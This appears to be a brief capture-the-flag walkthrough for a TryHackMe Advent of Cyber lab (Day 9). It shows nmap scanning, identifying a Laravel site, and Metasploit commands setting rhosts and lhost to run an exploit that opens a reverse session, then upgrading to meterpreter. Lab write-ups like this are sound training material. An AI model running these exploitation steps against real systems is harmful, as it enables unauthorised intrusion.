 # [Advent of Cyber 2022](https://tryhackme.com/room/adventofcyber4)

> Get started with Cyber Security in 24 Days - learn the basics by doing a new, beginner-friendly security challenge every day leading up to Christmas.

## Day 9: Dock the halls

scan the target

```
nmap -sV 10.10.249.228
```

![image](https://user-images.githubusercontent.com/90561566/206836994-a0fb95a9-acae-4ccf-ba35-ca6528a21ab3.png)

go to webpage, you will see it use Laravel framework

![image](https://user-images.githubusercontent.com/90561566/206840506-be217bdf-43cf-476f-9374-f90124b29f70.png)

search for exploit

![image](https://user-images.githubusercontent.com/90561566/206840698-57f8cc20-b922-498f-ba11-b61d7d792e8f.png)

```
msfconsole
```

![image](https://user-images.githubusercontent.com/90561566/206837648-bd28931c-0d84-4f9f-ade3-97692ff1269f.png)

type `info` and you will see cve here

![image](https://user-images.githubusercontent.com/90561566/206840790-4eede273-2564-40a2-b259-e541c3b1e38b.png)

```
set HttpClientTimeout 20
set rhosts 10.10.249.228
check
```

![image](https://user-images.githubusercontent.com/90561566/206837806-531454b0-ff76-47ea-80b5-e149fa8df684.png)

```
set lhost 10.8.0.74
run
```

![image](https://user-images.githubusercontent.com/90561566/206837939-35b425b2-0568-4b05-890b-43a01299d78d.png)

background the session

![image](https://user-images.githubusercontent.com/90561566/206837988-e6642782-7f7e-4a54-afa4-acd1c59a11b0.png)

update to meterpreter
